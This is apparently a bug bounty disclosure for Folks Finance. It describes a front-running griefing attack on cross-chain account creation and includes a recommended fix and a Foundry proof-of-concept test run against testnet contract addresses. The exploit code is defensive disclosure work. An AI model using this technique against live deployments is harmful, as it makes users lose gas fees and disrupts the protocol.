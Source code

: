 # Boost \_ Folks Finance 33272 - \[Smart Contract - Medium] FrontRunning Attack on createAccount

Submitted on Tue Jul 16 2024 18:19:37 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33272

Report type: Smart Contract

Report severity: Medium

Target: https://sepolia.etherscan.io/address/0x16Eecb8CeB2CE4Ec542634d7525191dfce587C85

Impacts:

* Unbounded gas consumption
* Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

An attacker can cause a user's message to fail by creating an account with the same accountId while the createAccount message is in transit through the bridge. As a result, the user loses the gas fees incurred for the transaction and the additional gas fees used for the bridge.

## Vulnerability Details

AccountId is not validated in any format in SpokeCommon.createAccount and AccountManager.createAccount. AccountId is any value created by user. So attacker can copy the account id from the Ethereum network's transaction history and use it to create an account on the HubChain (Avalanche network). This is possible because there is a delay while the message through the bridge.

## Impact Details

Gas costs on the Ethereum network are significantly higher than on the Avalanche network. While an attacker may incur less than $0.1 in costs to carry out the attack, the user could suffer losses between $5 and $10.

## Recommendation

It is advisable to set the accountId as the hash value of the userAddress and nonce.

## Proof of concept

## Proof of Concept

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../src/PoC.sol";


interface ISpokeCommon {
    struct MessageParams {
        uint16 adapterId; // where to route message through
        uint16 returnAdapterId; // if applicable, where to route message through for return message
        uint256 receiverValue; // amount of value to attach for receive message
        uint256 gasLimit; // gas limit for receive message
        uint256 returnGasLimit; // if applicable, gas limit for return message
    }

    function createAccount(
        MessageParams memory params,
        bytes32 accountId,
        bytes32 refAccountId
    ) external payable;
}

contract FolksFinance is PoC {

    function setUp() virtual public {
        console.log("\n>>> Initial conditions");
    }

    function testCreateAccount() public {
        vm.createSelectFork("eth_testnet", 6322454);
        address user = vm.createWallet("user").addr;
        vm.startPrank(user);
        ISpokeCommon spokeCommon = ISpokeCommon(0x16Eecb8CeB2CE4Ec542634d7525191dfce587C85);
        ISpokeCommon.MessageParams memory params;
        params.adapterId = 2;
        params.returnAdapterId = 1;
        params.receiverValue = 0;
        params.gasLimit = 201817;
        params.returnGasLimit = 0;

        bytes32 accountId = bytes32(uint256(1));
        bytes32 refAccountId;

        spokeCommon.createAccount{value: 13828150600000000}(params, accountId, refAccountId);
        // User has to pay for gas cost for this tx and fee(the gasLimit for targetChain).

        vm.stopPrank();

        // An attacker can carry out a frontrunning attack
        // The attacker the accountId from the Ethereum network's transaction history and use it to create an account on the HubChain (Avalanche network).
        // This is possible because it takes over 10 seconds to complete the transaction through the bridge.
        vm.createSelectFork("avalanche_testnet", 34872103);
        spokeCommon = ISpokeCommon(0x6628cE08b54e9C8358bE94f716D93AdDcca45b00);
        params.adapterId = 1;
        params.returnAdapterId = 1;
        params.receiverValue = 0;
        params.gasLimit = 0;
        params.returnGasLimit = 0;

        accountId = bytes32(uint256(1));
        spokeCommon.createAccount(params, accountId, refAccountId);
        // Wormhole would send the message after the accountId is created and the tx would be failed.
    }
}
```
